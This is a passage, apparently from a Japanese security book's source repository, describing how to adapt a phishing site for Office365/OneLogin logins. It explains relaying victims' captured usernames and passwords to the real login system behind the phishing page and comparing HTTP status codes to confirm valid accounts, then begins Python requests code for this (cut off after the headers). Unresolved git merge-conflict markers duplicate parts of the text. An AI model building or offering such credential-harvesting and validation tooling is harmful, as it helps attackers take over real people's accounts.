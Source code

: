 　ここからは、Office365に直接的な関係性はありません。
　書籍内で用いてる手法をOffice365に応用した場合について書いてみます。
　構築するフィッシングサイトは、HTTPステータスコードなどの作りが標準的な
作りのため正規のアカンウトのみのフィッシングが可能です。
　まず、2サイトのログイン時のステータスコードを見てみましょう。

<<<<<<< HEAD
=ここから=
OneLoginを使用しているAサイト ログイン失敗時StatusCode: 200

OneLoginを使用しているBサイト ログイン失敗時StatusCode: 403
=ここまで=
=======
\=ここから\=
OneLoginを使用しているAサイト ログイン失敗時StatusCode: 200

OneLoginを使用しているBサイト ログイン失敗時StatusCode: 403
\=ここまで\=
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

正しい、アカウント情報を入力した際に302でリダイレクトされると想定できるの
で以下のようになると思われます。

<<<<<<< HEAD
=ここから=
=======
\=ここから\=
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
OneLoginを使用しているAサイト ログイン成功時StatusCode: 302
OneLoginを使用しているAサイト ログイン失敗時StatusCode: 200

OneLoginを使用しているBサイト ログイン成功時StatusCode: 200 or 302
OneLoginを使用しているBサイト ログイン失敗時StatusCode: 403
<<<<<<< HEAD
=ここまで=
=======
\=ここまで\=
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　フィッシングサイトで被害者の入力値(ユーザー名 / パスワード)を取得すれば、
フィッシングサイトの裏側で対象のシステムに不正にログインリクエストを送信
し、HTTPステータスコードを比較すれば正しいアカウントを確認することができ
ます。
　Pythonのrequestsモジュールでログインリクエストを送信する場合以下のよう
なコードになります。
　また、このソースコードをFlackアプリに埋め込むことでFlackで生成したフィ
ッシングサイトで簡単に有効なアカウントかのチェックが可能です。

<<<<<<< HEAD
=擬似フィッシングサイトリクエスト送信箇所 ここから=
import requests


session = requests.Session()

# ツイートPOST送信のリクエスト
headers = {
    "User-Agent": "Mozilla/5.0",
    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "accept-language":"ja,en-US;q=0.8,en;q=0.6",
    "content-type":"application/x-www-form-urlencoded"
}
